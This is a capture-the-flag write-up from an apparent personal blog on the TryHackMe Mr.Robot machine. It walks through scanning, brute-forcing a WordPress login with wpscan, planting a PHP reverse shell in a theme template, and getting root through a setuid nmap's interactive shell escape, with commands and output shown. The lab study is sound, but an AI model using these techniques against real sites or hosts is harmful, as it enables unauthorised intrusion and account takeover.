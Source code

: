 ```yaml
---
layout: post
title: tryhackme Mr.Robot write up
---
```


![mr.robot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/mr_robot.jpg)

### about the machine

this is a medium rated box from [tryhackme](https://tryhackme.com), thought a little too easy if you asked me

### Reconnaissance

I added the box ip to my hosts file then a ran a quick nmap scan
```bash
# Nmap 7.91 scan initiated Wed Jan  6 22:39:07 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.15.148)
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  6 22:39:26 2021 -- 1 IP address (1 host up) scanned in 19.88 seconds

```

### http enumeration

I visited both the `http` and the `https` and they seemed to have the same page, which is an interactive command line with couple defined commands, non of them were useful thought
![command line](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/command_line.png)

visiting `robots.txt` I got the following result
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first flag and what appreared to be very big a wordlist full of duplicated words

```bash
$ wget ctf.thm/fsocity.dic
--2021-01-06 22:56:37--  http://ctf.thm/fsocity.dic
Resolving ctf.thm (ctf.thm)... 10.10.28.187
Connecting to ctf.thm (ctf.thm)|10.10.28.187|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
858160 fsocity.dic

fsocity.dic         100%[================>]   6.91M   436KB/s    in 17s     

2021-01-06 22:57:01 (405 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
$ wc -l fsocity.dic
858160 fsocity.dic
$ cat fsocity.dic | sort -u > small.dict
$ wc -l small.dict
11451 small.dict
```

then I've ran some http files brutforce. turned out is website is running wordpress

```bash
$ ngobuster dir -u ctf.thm -w $RAFT -t 30 -o robot.raft
/license.txt (Status: 200)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/wp-register.php (Status: 301)
/index.html (Status: 200)
```

I tried getting enumerating the users by visiting `ctf.thm/?author=id` but it didn't work, then I browsed to `wp-login.php` and since I this is a mr.robot themed box I tried the user name `elliot` and bingo, the user existed (if anyone knows another method for getting a user without guessing please let me know)

![found user elleiot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/found_user.png)

I've tried bruteforcing the password using the wordlist I got earlier and I've got some creds

```bash
$ echo elliot > user.txt
$ wpscan --url ctf.thm -U user.txt -P small.dict
...
[!] Performing password attack on Xmlrpc Multicall against 1 user/s
[!] Valid Combinations Found:
 | Username: elliot, Password: REDACTED_PASSWORD
```
# aaand I'm in
![logged in](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/wp_loged_in.png)


from here, first thing I've done is browsing to `appearance -> editor` and I've edited the `404.php` template to include a php reverse shell I got from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![malicious 404.php](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/master/assets/thm/robot/malicious_404.png)


then I browsed to `ctf.thm/jeff`, got a reverse connection, stabilized it then I began searching for the second flag

```bash
daemon@linux:~$ whoami
daemon
daemon@linux:~$ ls /home/
robot
daemon@linux:~$ cd /home/robot/
daemon@linux:/home/robot$ ls -lh
total 8.0K
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$
```

I found an md5-hashed `robot`'s creds, I got the original password by just copy/pasting the hash into google then I got the flag

### gaining root prileveges

the box had a really old version of `nmap` with a setuid bit set, old versions of nmap support the `--interactive` options, which lets you execute shell commands from an `nmap` prompts

```bash
daemon@linux:/home/robot$ find / -perm -u=s 2>/dev/null 
...
/usr/local/bin/nmap
...
^C
daemon@linux:/home/robot$ /usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -lh
total 4.0K
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
bash-4.3# touch key-3-of-3.txt
bash-4.3# 
```
